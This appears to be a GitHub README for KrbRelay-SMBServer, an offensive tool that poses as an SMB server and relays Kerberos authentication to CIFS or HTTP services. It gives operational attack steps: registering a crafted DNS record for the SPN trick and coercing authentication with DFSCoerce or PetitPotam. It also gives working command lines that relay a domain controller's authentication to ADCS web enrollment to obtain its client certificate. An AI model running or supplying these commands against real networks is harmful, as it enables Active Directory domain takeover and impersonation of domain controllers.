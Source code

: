 # KrbRelay-SMBServer

This version of Krbrelay is intended to act as an SMBServer (instead of DCOM) and relay the kerberos AP-REQ to CIFS or HTTP.<br>
90% of code is taken from the great KrebRelay tool: https://github.com/cube0x0/KrbRelay<br><br>
To have control over SPN, which is mandatory for relaying Kerberos, in this case we need to use James Forshaw  *CredMasrhalTargetInfo()*  trick documented here: https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html<br><br>
All you need is to create a DNS entry with the name of the target server you want relay in the form: *<server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAA* and map it to the ip address of your listening machine.<br>Normally domain users can perform DNS secure updates.
You can use powershell script *invoke-dnsupdate* (https://github.com/Kevin-Robertson/Powermad) for adding a DNS entry<br><br>
You need to trigger the authentication with a third-party tool, for example  DFSCoerce https://github.com/Wh04m1001/DFSCoerce,  PetitPotam https://github.com/topotam/PetitPotam , etc...<br><br>
Given that SMB port is 445 you have two options on the Windows attacker machine:<br>
* use a Linux box acting as redirector
* disable the SERVER serice on your Windows machine
<br><br>

This is a quick and dirty adaptation from original project. 
Code contains a lot of unused stuff.  
I'll leave it to you to clean it up and create a more optimized version ;)

### Examples

````
# Relay the DC SMB authentication to HTTP (ADCS) web enrollment and request client certificate using a socat redirector lsitening on port 9999:<br>
krbRelay.exe -spn http/adcs-mylab.mylab.local -redirecthost adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv  -adcs DomainController -listenerport 9999<br>
In another window:
DFSCoerce.exe -l adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  -t DC-2
(https://github.com/decoder-it/DFSCoerce-exe-2)

# special command line swicthes:
-listener: relay listener port
-redirector: relay server/redirector  mapped to the sepcial DNS entry <server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAA
For detailed usage and command line switches refer to original krbleay tool
````
I'll leave it to you to clean it up and create a more optimized version
<img width="1036" alt="Screenshot 2024-10-04 135731" src="https://github.com/user-attachments/assets/e2f95aa4-6c94-4517-b6c8-d7629a19a9f4">
<img width="1001" alt="Screenshot 2024-10-04 141231" src="https://github.com/user-attachments/assets/fd7bb972-0942-48d9-b99b-ba623f2823b0">
